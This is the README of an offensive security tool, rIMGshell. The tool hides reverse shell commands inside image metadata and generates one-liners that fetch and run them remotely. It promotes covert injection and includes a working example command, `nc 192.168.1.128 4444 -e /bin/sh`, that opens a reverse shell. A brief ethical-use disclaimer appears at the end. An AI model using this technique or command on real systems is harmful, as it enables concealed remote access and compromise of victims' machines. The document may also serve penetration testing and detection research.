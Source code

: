 # rIMGshell
[![Sponsor](https://img.shields.io/badge/Sponsor-%E2%9D%A4-red)](https://github.com/sponsors/git5loxosec) [![Kali Linux Compatible](https://img.shields.io/badge/Kali%20Linux-Compatible-brightgreen)](https://www.kali.org/)
 <img src="https://camo.githubusercontent.com/f25217d6db3b6cb603d9fb4a2b017a682aae3b1ec5c6ffab653f6cd31eceb73c/68747470733a2f2f696d672e736869656c64732e696f2f62616467652f446576656c6f7065642532306f6e2d6b616c692532306c696e75782d626c756576696f6c6574"> ![Language](https://img.shields.io/badge/Language-Bash-green.svg)
 ![License](https://img.shields.io/badge/License-MIT-blue.svg) 


<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell1.png">
Clean image file no reverse shell.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell2.png">
The reverse shell injection method used here wont affect the integrity of the image file.
<img src="https://github.com/git5loxosec/rIMGshell/blob/main/github_rimgshell3.png">
Connection established, mission accomplished!



# Description:

rIMGshell is a command-line tool for injecting a reverse shell command into an image and generating one-liner execution methods.

# How It Works:
rIMGshell takes a reverse shell command and an image file as input. It then injects the command into the image using metadata comments. After injection, it generates a one-liner execution method for retrieving and executing the injected command from a remote location.

# Features:
Covert Command Injection: Inject reverse shell commands into image files.
Multiple Execution Methods: Choose from various one-liner execution methods for retrieving and executing the injected command.
Versatile Compatibility: Works with common Linux command-line utilities such as exiftool, exiv2, identify, file, and jpeginfo.
Secure Communication: Execute commands remotely without revealing their presence in the image.

## Installation

1. Clone the repository:

   ```
   git clone https://github.com/git5loxosec/rIMGshell.git
   ```

2. Change to the project directory:

   ```
   cd rIMGshell
   ```

3. Make the script executable:

   ```
   chmod +x rIMGshell.sh
   ```

## Usage

```
./rIMGshell.sh [OPTIONS] <REVERSE_SHELL_COMMAND> <IMAGE_FILENAME>
```

- `[OPTIONS]` - Optional arguments.
- `<REVERSE_SHELL_COMMAND>` - The reverse shell command to inject.
- `<IMAGE_FILENAME>` - The name of the image file.

**Example:**

```
./rIMGshell.sh "nc 192.168.1.128 4444 -e /bin/sh" image.jpg
```

Note: Ensure that you have the required dependencies (e.g., exiftool, curl) installed on your system before using rIMGshell.

**Warning: Ethical and Responsible Use Only
rIMGshell is intended for legitimate and ethical purposes, such as penetration testing, cybersecurity assessments, and educational use. Unauthorized use of this tool for malicious activities is strictly prohibited and may have serious legal consequences. Ensure that you have proper authorization and adhere to all applicable laws and regulations before using rIMGshell.**


## License


This project is licensed under the [MIT License](LICENSE).
